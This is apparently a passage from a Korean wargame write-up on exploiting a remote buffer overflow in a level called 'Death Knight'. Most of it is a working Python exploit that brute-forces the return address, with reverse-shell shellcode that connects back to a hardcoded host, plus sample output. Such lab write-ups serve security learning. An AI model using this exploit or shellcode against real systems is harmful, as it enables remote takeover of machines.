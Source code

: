 ```shell
	close(server_fd);
}
```

remote bof이다. recv를 256만큼 buffer에 저장하기 때문에 bof가 터진다. 

하 슬프게도 내가 만든 reverse shellcode가 이유는 모르겠는데 작동을 안해서 만든 보람을 못 느꼈다. 

결국 쉘 스톰에 올라온거 사용함 http://shell-storm.org/shellcode/files/shellcode-833.php

```python
#!/usr/bin/python
import socket
import struct

target_ret = 0xbfff0000

shellcode1 = "\x90"*100 + "\x6a\x00\x6a\x01\x6a\x02\x31\xdb\x43\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc6\x68\x7f\x01\x01\x01\x66\x68\x30\x39\x66\x6a\x02\x89\xe1\x43\x43\x6a\x10\x51\x56\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xf3\x31\xc9\xb1\x00\xb0\x3f\xcd\x80\x41\xcd\x80\x41\xcd\x80\x31\xc9\x31\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90"

shellcode2 = "\x90"*100 + \
        "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"+\
        "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x79\xab\x94\x7d\x68"+\
        "\x02\x00\x30\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"+\
        "\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"+\
        "\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

for i in range(0xffff, 0, -1) :
    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    r.connect(('192.168.17.134', 6666))

    payload = "A"*44 + struct.pack('<L', target_ret+i) + shellcode2

    print "target_ret = %s" % hex(target_ret+i)
    print r.recv(60) 
    r.send(payload)
    r.close()
```



그냥 돌리고 휴대폰 좀 만지다 보면 어느순간 연결된다.

```shell
target_ret = 0xbffffd56
Death Knight : Not even death can save you from me!

target_ret = 0xbffffd55
Death Knight : Not even death can save you from me!

target_ret = 0xbffffd54
Death Knight : Not even death can save you from me!

target_ret = 0xbffffd53
Death Knight : Not even death can save you from me!
...
```

